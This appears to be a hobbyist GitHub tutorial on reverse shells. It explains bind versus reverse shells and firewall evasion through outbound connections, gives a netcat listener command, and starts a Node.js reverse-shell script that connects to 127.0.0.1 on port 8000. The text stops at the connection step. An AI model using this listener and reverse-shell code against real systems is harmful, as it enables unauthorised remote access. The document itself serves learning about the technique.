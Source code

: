 
# What are we doing here?
 
 
So basically, when you want to connect to a remote PC or server or something remote that goes online you can use a **bind shell**. You are the one asking :
_
"Hey , can I connect to you?"_

Most of the times, because of firewall, for example if an attacker wants to connect to a remote server behind a firewall of a company, it does not works. 
The connection gets dropped because the traffic is not legitimate. Also beacuse the server could just expose few ports and there is already traffic through them.

The option an attacker has it to create a **REVERSE SHELL** (thunders + grave and dark voice)



# What the hell is a reverse shell?


The big difference is that now it is not the attacker anymore the one who asks if he can connect. Now is the target PC or target server which says: 

_"Let me connect to you, you ol' dirty bastard"_


Let me explain how it is done. 



First of all is already given that the target has somehow downloaded a malicious file containing a script or something that gets executed. This script makes the target PC on which is executed establish a connection to the attacker. This way there is a higher chance that the firewall will let the connection pass through givent that is outbound traffic.

[ATTACKER]<-------Let me connect to you----[TARGET]

The ATTACKER though has to setup a listener on his machine. This way the TARGET can coonect.
This is done via a listener, a piece of software as **Netcat** that can listen on a specified port.


For what I've been playing with so far, what I did on the ATTACKER machine was just setup netcat to listen on a port. I used this command:

`netcat -lnvp 8000`

I notice other tutorials use `-s SOURCE_IP`, but I don't need it since I got just one interface

Let's go through each flag

`-l` tells netcat to: 
>Listen for an incoming connection rather than initiating a connection to a remote host.

`-n` tells netcat to:
>Do not perform domain name resolution.  If a name cannot be resolved without DNS, an error will be reported.

`-v` tells netcat to be verbose

`-p` let us specify the port to start listening on


# Now we play

The part regarding the ATTACKER is pretty much done. Now I started playing with Javascript to implement the code to open the reverse shell.

Javascript + Node.js to be exact.

This is the list of node_modules that I needed: 
`npm list >>
 child_process@1.0.2
 net@1.0.2`
 
 
 First I included the required modules and the use of ENV variables
 
```
const net = require("node:net");
const child_process=require("node:child_process");

const{env} = require("node:process");
```
 
 
After that I defined PORT as an environment variables (NODE_PORT) if set, or as the 8000 port

`const PORT = env["NODE_PORT"] || 8000;`


Now comes the best part: **Establishing a network connection**


This bit will make the PC establish a connection to the ATTACKER IP(127.0.0.1) on port 8000

```
const client= net.createConnection({host: "127.0.0.1", port: PORT}, () =>{ 
                                                 
    client.write("Connected\r\n $> ");

});
```

And once the connection as been established, I will see "Connected" \n "$>" on my terminal, the ATTACKER terminal





